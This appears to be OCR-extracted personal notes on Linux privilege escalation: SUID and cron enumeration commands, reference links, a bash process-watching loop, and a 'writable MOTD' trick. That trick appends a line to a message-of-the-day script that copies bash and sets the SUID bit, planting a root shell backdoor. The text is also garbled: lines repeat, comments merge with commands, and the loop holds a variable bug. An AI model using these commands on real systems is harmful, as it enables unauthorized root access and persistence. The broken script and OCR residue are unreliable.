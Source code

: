  find / -perm -4000 2>/dev/null find SUID 
 cat /etc/crontab or crontab -l  find cron jobs
 https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
 




https://gtfobins.github.io/#




# checking processes running every sec
#!/bin/bash

IFS=$'\n'
old_process=$(ps -eo command)

while true; do 
  new_process=$(ps -eo command)
  diff <(echo "$old_process") <(echo "$new_process")  |grep [\<\>]
  sleep 1 
  old_process=new_process 
done

# writable MOTD

echo "cp /bin/bash /home/name/bash && chmod u+s /home/name/bash" >> 00-header

# SUID

find / -perm -4000 2>/dev/null find SUID 
cat /etc/crontab or crontab -l  find cron jobs
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
 